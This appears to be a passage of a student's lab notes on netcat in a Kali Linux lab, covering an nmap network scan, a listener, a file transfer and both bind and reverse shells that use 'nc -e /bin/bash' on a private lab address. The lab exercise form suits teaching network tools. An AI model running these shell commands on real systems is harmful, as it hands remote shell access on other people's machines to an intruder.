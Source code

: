 ```console
berkankutuk@kali:~$ nmap -sT -A 10.0.2.0/24
```

### Create a listener and connect to it from another terminal window cf. "Opening Pipes Over the Network".* 

```console
berkankutuk@kali:~$ nc -lvp 1337 # Listening on a port
```

and from another terminal 

```console
berkankutuk@kali:~$ ifconfig # Find machine ip=10.0.2.15
berkankutuk@kali:~$ nc 10.0.2.15 1337 # Connecting to port
```

### Connect to a remote shell cf. "Opening a Shell Over the Network with netcat".
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ nc -lvp 1337 -e /bin/bash # Opening the tunnel
```

and from the remote machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 # Connecting to the port
berkankutuk@kali:~$ whoami # Testing access
```

### Perform the "Basic Reverse Shell" example.
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ nc -lvp 1337 # Opening port
```

now to the target machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 -e /bin/bash # Connecting to the port
```

and back to host machine

```console
berkankutuk@kali:~$ whoami # Testing access
```
### Transfer a file with netcat.  
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ echo 'password is: iamhecker' >> secret.txt # Creating the file
berkankutuk@kali:~$ nc -lvp 1337 < secret.txt # Opening port and streaming the file
```
